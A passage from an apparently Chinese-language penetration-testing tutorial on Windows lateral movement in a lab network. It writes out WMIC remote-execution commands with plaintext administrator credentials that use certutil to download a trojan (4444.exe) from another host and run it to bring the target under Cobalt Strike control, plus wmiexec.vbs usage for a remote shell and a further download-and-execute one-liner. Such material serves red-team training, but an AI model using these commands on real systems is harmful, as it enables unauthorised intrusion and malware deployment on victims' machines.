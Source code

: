 ![](https://mmbiz.qpic.cn/mmbiz_png/rTicZ9Hibb6RVvvWMZwzOmMrYGPNk1gic0OTbOhrwR6HOUGYzgaMeM1HLC9NpdNxaqtLpK4lTIKvicH5AFBRVWgGicw/640?wx_fmt=png "null")

可以看到我们并无法直接看到命令的回显，但我们上帝视角切到靶机发现确实是执行命令了的 。

![](https://mmbiz.qpic.cn/mmbiz_png/rTicZ9Hibb6RVvvWMZwzOmMrYGPNk1gic0O5ehCyxdc2eVGpEYq8Tqz7cY69ILY2AgJIImmaQHBmo8pjMbml0HNkA/640?wx_fmt=png "null")

这里如果在实战中，如果想要查看文件内容和文件是否上传成功的话，就要使用上篇文章内网移动-IPC中的type和dir命令

```
dir \\192.168.3.32\c$ #列出该主机的C盘下的文件
type \\192.168.3.32\c$\ip.txt
```

![](https://mmbiz.qpic.cn/mmbiz_png/rTicZ9Hibb6RVvvWMZwzOmMrYGPNk1gic0O1d9cLicjaqakzmcxgRBpZAiaKn9vxcicicOpKutFrPDHEaG9t8ib95aC8cA/640?wx_fmt=png "null")![](https://mmbiz.qpic.cn/mmbiz_png/rTicZ9Hibb6RVvvWMZwzOmMrYGPNk1gic0Oof42RmD7fyJfZhGk6KiaaUegKiaapUGQadPrYVbVlWUh7viayT5qUiaJFQ/640?wx_fmt=png "null")

这里将其上线CS的步骤也是：使用下载命令让其下载Web Server中的木马，执行上线

```
wmic /node:192.168.3.32 /user:administrator /password:admin!@#45 process call create "cmd.exe /c certutil -urlcache -split -f http://192.168.3.31/4444.exe c:/4444.exe"  #下载Webserver中的木马文件到自己的C盘
```

![](https://mmbiz.qpic.cn/mmbiz_png/rTicZ9Hibb6RVvvWMZwzOmMrYGPNk1gic0OsCkv1QGLnRhVe1J2vf3lg8jpRsfeS3GBZaNZtxOLibIFMRXibHQfF2mA/640?wx_fmt=png "null")

```
wmic /node:192.168.3.32 /user:administrator /password:admin!@#45 process call create "cmd.exe /c c:/4444.exe" # 执行木马
```

![](https://mmbiz.qpic.cn/mmbiz_png/rTicZ9Hibb6RVvvWMZwzOmMrYGPNk1gic0OvNichRFoWCAG0Izl6Q2BsKoqljiaGewxgyRaKibekktZBI2nibWC49tnrQ/640?wx_fmt=png "null")

可以看到此时sqlserver成功被上线。

![](https://mmbiz.qpic.cn/mmbiz_png/rTicZ9Hibb6RVvvWMZwzOmMrYGPNk1gic0OWFlIFVVg26ZVhHicNAxRdXUXo2nRwHzn33qKo3vpS6icEJg6eVlGIwzQ/640?wx_fmt=png "null")

#### wmiexec.vbs

wmiexec.vbs 脚本通过 VBS 调用 WMI 来模拟 PsExec 的功能，wmiexec.vbs 下载地址：https://github.com/k8gege/K8tools/blob/master/wmiexec.vbs，交互式，适合在反弹shell或msfconsole中使用，不适合CS控制 首先我们将其上传到跳板机中，然后再使用命令去连接，由于CS无法返回shell的问题，所以该脚本并不适用于在CS中运行，所以这里我选择将会话转移到MSF中去运行。

![](https://mmbiz.qpic.cn/mmbiz_png/rTicZ9Hibb6RVvvWMZwzOmMrYGPNk1gic0OcecJzDhYfFsv1VCOnCqSvwOkGXl0LxLXoRVpx1TMow9TIJ4kF1aOpw/640?wx_fmt=png "null")

```
cscript //nologo wmiexec.vbs /shell 192.168.3.32 administrator admin!@#45
```

![](https://mmbiz.qpic.cn/mmbiz_png/rTicZ9Hibb6RVvvWMZwzOmMrYGPNk1gic0OkoQvA2gs9YajGzHDqQviaLPFAQrARlLrHugI5zjpcKHefUHblr2QklA/640?wx_fmt=png "null")

可以看到在MSF中运行了该文件后，成功将sqlserver的shell反弹了过来，在此我们可以直接让其下载后门并执行，上线到我们的CS中。

```
cmd.exe /c certutil -urlcache -split -f http://192.168.3.31/4444.exe c:/4444.exe & C:/4444.exe
```

![](https://mmbiz.qpic.cn/mmbiz_png/rTicZ9Hibb6RVvvWMZwzOmMrYGPNk1gic0Ov4Wxs45SibDCMLicgBsibtdPnIVN1IQb4hZ6xAVwH2UIKSnHzaLfTibYvA/640?wx_fmt=png "null")
